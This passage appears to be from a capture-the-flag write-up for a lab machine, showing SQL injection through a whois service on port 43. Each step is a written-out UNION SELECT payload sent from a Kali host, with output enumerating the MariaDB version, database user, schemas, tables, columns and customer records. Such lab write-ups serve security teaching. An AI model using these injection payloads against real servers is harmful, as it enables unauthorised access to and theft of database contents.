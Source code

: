 DB version:

```

root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT @@version,2#"
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
% This query returned 1 object
10.1.37-MariaDB-0+deb9u1

```

The current user:

```

root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT user(),2#" | grep -vE "^%"
whois@localhost

```

DBs:

```

root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT GROUP_CONCAT(schema_name SEPARATOR '\n'),2 FROM information_schema.schemata#" | grep -vE "^%"
information_schema
whois

```

Tables in `whois` database:

```

root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT GROUP_CONCAT(table_name SEPARATOR '\n'),2 FROM information_schema.tables WHERE table_schema = 'whois'#" | grep -vE "^%"
customers

```

Columns in `customers` table:

```

root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT GROUP_CONCAT(column_name SEPARATOR '\n'),2 FROM information_schema.columns WHERE table_schema = 'whois'#" | grep -vE "^%"
id
domain
data

```

A list of the customers:

```

root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT GROUP_CONCAT(CONCAT(id, ': ', domain) SEPARATOR '\n'),2 FROM customers#" | grep -vE "^%"
1: supersechosting.htb
2: justanotherblog.htb
3: pwnhats.htb
4: rentahacker.htb

```
